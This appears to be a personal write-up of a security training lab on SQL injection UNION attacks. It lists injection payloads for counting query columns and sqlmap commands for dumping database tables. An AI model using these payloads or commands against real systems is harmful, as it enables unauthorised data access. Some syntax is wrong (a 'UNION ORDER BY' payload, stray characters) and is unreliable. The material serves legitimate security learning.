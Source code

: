 
## 7. Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Instructions:**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

**Solution:**

To test it is vulnerable with SQL injection or not make the `'` if the response give you 500 internal server error you got the SQL injection.

You make the `' OR 1=1-- -`

First thing you want to search with this is the Type and Version of Database.
To know the number of NULL you can do the :
		`Pets' UNION SELECT NULL FROM dual-- -`
		`Pets' UNION SELECT NULL,NULL FROM dual-- -`
		`Pets' UNION SELECT NULL,NULL,NULL FROM dual-- -`
		`Pets' UNION SELECT NULL,NULL,NULL,NULL FROM dual-- -`
		`Pets' UNION SELECT NULL,NULL,NULL,NULL,NULL FROM dual-- -`
		`Pets' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL FROM dual-- -`
		`Pets' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM dual-- -`
		`Pets' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM dual-- -``
Or you can use this method just increase the number.
		`Pets' UNION ORDER BY 2-- -`

Or you can use the Best way Use the SQLMap tool 
	1. First use the Burp suite to get the request that have the parameter that have the SQL injection and with right click **Save Item** to use it with SQL Map.
	2. command with SQL Map `python3 sqlmap.py -r fileyousave -p category`
	![](assets/Pasted%20image%2020251010023250.png)
	3. dump database `python3 sqlmap.py -r fileyousave -D public --tables!`
	![](assets/Pasted%20image%2020251010023648.png)
	![](assets/Pasted%20image%2020251010023710.png)
	4. get the tables name `python3 sqlmap.py -r fileyousave -D public `
